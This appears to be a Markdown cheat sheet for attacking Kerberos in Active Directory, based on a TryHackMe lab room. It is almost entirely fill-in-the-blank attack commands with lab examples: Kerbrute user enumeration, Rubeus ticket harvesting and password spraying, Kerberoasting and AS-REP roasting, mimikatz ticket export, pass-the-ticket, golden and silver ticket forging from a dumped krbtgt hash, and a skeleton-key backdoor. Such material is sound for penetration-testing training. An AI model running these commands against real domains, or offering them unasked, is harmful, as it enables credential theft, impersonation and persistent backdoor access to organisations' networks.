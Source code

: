 # Attacking Kerberos
* [Enumeration with Kerbrute](#enumeration-with-kerbrute)
* [Harvesting and Brute Forcing Tickets with Rubeus](#harvesting-and-brute-forcing-tickets-with-rubeus)
* [Kerberoasting with Rubeus and Impacket](#kerberoasting-with-rubeus-and-impacket)
* [AS-REP Roasting with Rubeus](#as-rep-roasting-with-rubeus)
* [Pass the Ticket with mimikatz](#pass-the-ticket-with-mimikatz)
* [Golden and Silver Ticket Attacks with mimikatz](#golden-and-silver-ticket-attacks-with-mimikatz)
* [Kerberos Backdoors with mimikatz](#kerberos-backdoors-with-mimikatz)

*********************************************************************************
Items inside [SQUARE-BRACKETS] indicate changeable (fill in the blank) fields.  
Note: Bracket characters themselves [ ] require removal. See examples.
*********************************************************************************

## Enumeration with Kerbrute

Kerbrute Installation:
* https://github.com/ropnop/kerbrute/releases

Brute force user accounts from a domain controller using a supplied wordlist:
```
./kerbrute userenum --dc [DOMAIN-CONTROLLER] -d [DOMAIN] [WORDLIST]
```
Example:
```
./kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt
```
*********************************************************************************
## Harvesting and Brute Forcing Tickets with Rubeus

Rubeus Installation:
* https://github.com/GhostPack/Rubeus

Tell Rubeus to harvest TGTs every 30 seconds:
```
Rubeus.exe harvest /interval:30
```
Before password spraying with Rubeus, add domain controller domain name to windows host file with this command:
```
echo [DOMAIN-IP] [DOMAIN-NAME] >> C:\Windows\System32\drivers\etc\hosts
```
Example:
```
echo 10.10.24.234 CONTROLLER.local >> C:\Windows\System32\drivers\etc\hosts
```

Take given password and "spray" it against all found users then give .kirbi TGT for that user:
```
Rubeus.exe brute /password:[PASSWORD] /noticket
```
Example:
```
Rubeus.exe brute /password:Password1 /noticket
```
*********************************************************************************
## Kerberoasting with Rubeus and Impacket

### Rubeus

Dump Kerberos hash of any kerberoastable users:
```
Rubeus.exe
```

### Impacket

Impacket Installation:
* https://github.com/SecureAuthCorp/impacket/releases/tag/impacket_0_9_19

Ensure dependencies are installed:
```
cd [IMPACKET-LOCATION]
```
```
pip install .
```
Navigate to where GetUserSPNs.py is located:
```
cd /usr/share/doc/python3-impacket/examples/
```
Dump Kerberos hash for all kerberoastable accounts on target machine remotely:
```
sudo python3 GetUserSPNs.py [DOMAIN-NAME]/Machine1:[PASSWORD] -dc-ip [DOMAIN-CONTROLLER-IP] -request
```
Example:
```
sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip 10.10.24.234 -request
```
*********************************************************************************
## AS-REP Roasting with Rubeus

Look for vulnerable users then dump their hashes:
```
Rubeus.exe asreproast
```
*********************************************************************************
## Pass the Ticket with mimikatz

Run mimikatz
```
mimikatz.exe
```

Ensure proper privileges: (output '20' OK)
```
privilege::debug
```

Export all .kirbi tickets into current directory:
```
sekurlsa::tickets /export
```

Use harvested ticket to cache and impersonate given ticket:
```
kerberos::ptt [TICKET]
```

List cached tickets for impersonation verification:
```
klist
```
*********************************************************************************
## Golden and Silver Ticket Attacks with mimikatz

Dump hash and security identifier to create golden/silver ticket:
```
lsadump::lsa /inject /name:[ACCOUNT]
```
Example:
```
lsadump::lsa /inject /name:krbtgt
```

Create Golden/Silver Ticket:
```
Kerberos::[golden or silver] /user:[USERNAME] /domain:[DOMAIN-NAME] /sid:[SID] /krbtgt:[NTLM-HASH] /id:[500 (golden) OR 1103 (silver)]
```
Example:
```
Kerberos::silver /user:Administrator /domain:controller.local /sid:S-1-5-21-432953485-3795405108-1502158
860 /krbtgt:72cd714611b64cd4d5550cd2759db3f6 /id:1103
```

Open new elevated command prompt with given ticket in mimikatz:
```
misc::cmd
```
*********************************************************************************
## Kerberos Backdoors with mimikatz

Install skeleton key:
```
misc::skeleton
```

### Accessing the Forest

* The default credentials will be: "mimikatz"

Access share without admin password example:
```
net use c:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz
```
*********************************************************************************
## Reference
https://tryhackme.com/room/attackingkerberos#
